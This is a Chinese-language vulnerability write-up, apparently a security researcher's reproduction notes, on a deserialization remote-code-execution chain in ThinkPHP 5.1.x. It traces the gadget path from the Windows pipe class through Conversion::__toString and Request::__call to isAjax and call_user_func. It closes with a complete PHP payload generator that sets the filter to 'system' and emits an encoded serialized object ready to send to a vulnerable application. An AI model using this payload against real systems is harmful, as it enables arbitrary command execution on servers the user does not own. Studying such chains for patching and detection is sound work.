## 漏洞影响
- **受影响版本**：ThinkPHP 5.1.*

## 漏洞分析
ThinkPHP 5.1.X 版本存在一处反序列化漏洞，利用链借助 `file_exists` 函数触发类的 `__toString` 方法，将可控对象转换为字符串，从而激活 `think\model\concern\Conversion` 的 `visible` 方法，进一步通过 `__call` 魔术方法调用 `think\Request` 类的 `__call`，利用 `call_user_func_array` 执行任意类方法；最终借由 `isAjax` 或 `isPjax` 等方法间接调用 `input` 方法，实现 `call_user_func($filter, $data)` 形式的命令注入 RCE，影响所有未修补的 5.1.X 部署环境。

## 漏洞复现

1. 应用层实现反序列化，参数用户可控。



2. 全局搜索 `__toString` 魔术方法，在 `Conversion` 类的 `__toString` 魔术方法中触发 `$this->toJson()` 调用。该方法进一步调用 `$this->toArray()` 。









3. `toArray` 方法代码较长，但观察到在 `$relation->visible($name)` 处可触发 `__call` 方法。



4. Gadget 链需满足 `if (!empty($this->append))` 条件，且 `$name` 为数组、 `$relation` 可控。`$relation` 通过 `$relation = $this->getAttr($key)` 获取。



5. `getAttr` 方法由 `think\model\concern\Attribute` 提供，该方法在 `$value = $this->getData($name)` 处调用 `getData` 方法。若 `$name` 的值在 `$this->data` 中则返回 `$this->data[$name]` (由 `Conversion` 类的 `$this->append` 控制)。`getAttr` 方法后续对 `$value` 的赋值可能会造成覆盖，但控制 `$name` 的值为 `fake` 即可跳过所有分支，返回可控的 `$value`。







6. `$relation` 可控，现可调用任意类的 `__call` 方法。`Request` 方法的 `__call` 方法中 `call_user_func_array($this->hook[$method], $args)` 的 `$this->hook[$method]` 可控，但 `array_unshift($args, $this)` 将 `$this` 对象置于 `$args` 首位，需寻找传入 `$this` 对象仍可利用的方法。



7. `Request` 类的 `input` 方法调用 `$this->filterValue($data, $name, $filter)` ，其中存在 `$value = call_user_func($filter, $value)` 。为命中此代码，需通过 `$filter = $this->getFilter($filter, $default)` 控制 `$filter` ( `$filter` 非 `null` 时，由 `$this->filter` 控制)。同时，控制 `$data` 为非数组以跳过 `if (is_array($data))` 分支，进入 `filterValue` 方法。该方法的 `foreach ($filters as $filter)` 将传入 `$filter` 作为数组遍历，若 `$filter` 是一个有效的函数名且 `if (is_callable($filter))` 成立，则调用 `call_user_func` 。为控制 `input` 参数，可进一步寻找其调用者。






8. `Request` 类的 `param` 方法调用了 `$this->input($this->param, $name, $default, $filter)` ，可控制第一个参数。但 `param` 形参为 `param($name = '', $default = null, $filter = '')` ，`$this` 赋值给 `$name` 后，`$name = (string) $name` 强制转换 `$this` 会报错，故需再封装一层去除 `$this` 。



9. 继续查找 `param` 的调用点，发现在 `Request` 类的 `isAjax` 方法中 `$this->param($this->config['var_ajax'])` 可控制 `param` 的 `$name` 值，从而形成完整反序列化链。



10. 漏洞验证成功。


payload：

```php
<?php

namespace think;
class Request {
    protected $hook = [];
    protected $config = [
        // 表单请求类型伪装变量
        'var_method'       => '_method',
        // 表单ajax伪装变量
        'var_ajax'         => '_ajax',
        // 表单pjax伪装变量
        'var_pjax'         => '_pjax',
        // PATHINFO变量名 用于兼容模式
        'var_pathinfo'     => 's',
        // 兼容PATH_INFO获取
        'pathinfo_fetch'   => ['ORIG_PATH_INFO', 'REDIRECT_PATH_INFO', 'REDIRECT_URL'],
        // 默认全局过滤方法 用逗号分隔多个
        'default_filter'   => '',
        // 域名根，如thinkphp.cn
        'url_domain_root'  => '',
        // HTTPS代理标识
        'https_agent_name' => '',
        // IP代理获取标识
        'http_agent_ip'    => 'HTTP_X_REAL_IP',
        // URL伪静态后缀
        'url_html_suffix'  => 'html',
    ];
    protected $filter;
    protected $param = [];
    protected $mergeParam = false;
    
    public function __construct() {
        $this->hook = [ 'visible' => [$this, 'isAjax']];
        $this->config['var_ajax'] = '';
        $this->filter = 'system';
        $this->mergeParam = true;
        $this->param = 'notepad';
    }
}

namespace think;
abstract class Model {
    private $data = [];
    protected $append = [];
    public function __construct() {
        $this->data = ['fake' => new Request()];
        $this->append = [ 'fake' => ['dir', 'calc']];
    }
}

namespace think\model;
use think\Model;
class Pivot extends Model {

}

namespace think\process\pipes;
use think\model\Pivot;
abstract class Pipes {

}
class Windows extends Pipes {

    private $files = [];

    public function __construct() {
        $this->files = [new Pivot()];
    }

    public function getDescriptors() {

    }

    public function getFiles() {

    }

    public function readAndWrite($blocking, $close = false) {

    }

    public function areOpen() {

    }
}
echo urlencode(base64_encode(serialize(new Windows())));
```